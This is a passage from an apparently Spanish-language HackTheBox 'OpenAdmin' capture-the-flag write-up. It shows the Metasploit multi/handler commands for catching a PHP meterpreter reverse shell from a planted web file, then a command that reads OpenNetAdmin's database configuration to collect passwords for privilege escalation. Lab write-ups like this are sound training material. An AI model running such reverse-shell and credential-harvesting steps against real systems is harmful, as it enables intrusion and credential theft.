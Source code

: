 Dejamos a la escucha el multi handler de metasploit y recibimos la conexión: 
```console
$ msfconsole
> use multi/handler
> set payload php/meterpreter_reverse_tct
> set LHOST 10.10.15.125
> set LPORT 4646
```

La ejecución de esta Shell se hace de forma remota, debido a que el usuario `www-data` tiene acceso de escritura sobre el directorio principal `/opt/ona/www` el cual corresponde al directorio raíz del **OpenNetAdmin**, de esta forma activamos nuestra shell desde el browser: 
- http://openadmin.htb/ona/d14.php

![Meterpreter](/assets/htb/04_openAdmin/08_meterpreter_handler.png)
_Recibiendo el Meterpreter con Metasploit_

Una vez tenemos acceso al servidor, se procede a realizar una enumeración y recolección de la información interna. Considerando que este acceso inicial **NO** nos permite la lectura de la flag `user.txt`, es necesrio escalar privilegios. 

## Elevación de Privilegios

Bajo el contexto de un sistema/aplicativo robusto para el manejo de redes y subredes, lo primero que intentamos identificar son las cadenas de conexión de todos los aplicativos inscritos en `ona`, con el objetivo de recolectar las contraseñas y poder vulnerar otros servicios. 

Identificamos el archivo de configuración principal del software `OpenNetAdmin`: 
```console
$ cat /var/www/ona/local/config/database_settings.inc.php
```

![Database Settings](/assets/htb/04_openAdmin/09_dabase_settings.png)
_Configuración de conexión a base de datos_
